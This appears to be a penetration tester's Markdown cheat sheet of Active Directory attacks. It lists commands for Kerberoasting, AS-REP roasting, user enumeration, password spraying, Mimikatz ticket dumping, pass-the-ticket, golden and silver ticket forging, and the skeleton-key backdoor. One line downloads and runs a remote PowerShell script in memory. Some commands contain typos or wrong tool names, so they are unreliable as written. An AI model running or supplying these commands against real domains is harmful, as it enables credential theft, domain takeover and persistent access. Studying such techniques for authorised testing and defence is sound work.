

# Active Directory
## Others
Search for SPNs in cmd:

`setspn -T [domain] -Q */*`

## Empire
**Kerberoast**

Download Invoke-Kerberoast from PowerShell.

`iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')`

Run with: `Invoke-Kerberoast -OutputFormat hashcat`


## Kerbrute
- https://github.com/ropnop/kerbrute

`kerbrute userenum -d [domain] --dc [dcname] [wordlist]`

Will enumerate users by kerberos preauth, requires DNS names so add to etc/hosts.

## Rubeus
- https://github.com/GhostPack/Rubeus

Harvesting and password spraying.

```
.\Rubeus.exe harvest /interval:30
.\Rubeus.exe brute /password:Password1 /noticket
```

**Kerberoasting**

This is done on target machine, for off-target, look at impacket.
```
.\Rubeus.exe kerberoast

# Copy any found hashes(krb5tgs).

haschat -m 13100 -a 0 [hash] [wordlist]
```

**AS-REP Roasting**

Requires preauth to be disabled. To get it from your local machine, look at Impacket.

`\.Rubeus.exe asreproast`

Hashcat mode 18200. Make sure that 23 exists right after '$krb5asrep$', you might have to add it to rubeus output.
## Impacket
**Kerberoasting**

`GetUserSPNs.py [domain]/[maching]:[password] -dc-ip [dc-ip] -request`

Get user SPN hashes to crack. Crack with hashcat mode 13100. Make sure to run with python3.

**AS-REP Roasting**

`python3 GetNPUser.py [domain]/[user] -request -no-pass -dc-ip [dc-ip]`

## Mimikatz
**Pass the ticket**

Make sure you have admin rights to dump tickets with `privilege::debug`.

`sekurlsa::tickets /export`

Exports tickets to the current dir.

`kerberos::ptt [ticketfilename]`

In windows, run `klist` to view cached tickets.

**Golden/Silver ticket**

`lsadump::lsa /inject /name:krbtgt`

If you want a silver ticket, change the name to a service account.



`Kerberos::golden /user:[admin-user] /domain:[domain-name] /sid:[sid] /krbtgt:[filename] /id:[id]`

**Skeleton key**

Works on Kerberos RC4.

`misc::skeleton`

Password 'mimikatz' can be used after this.
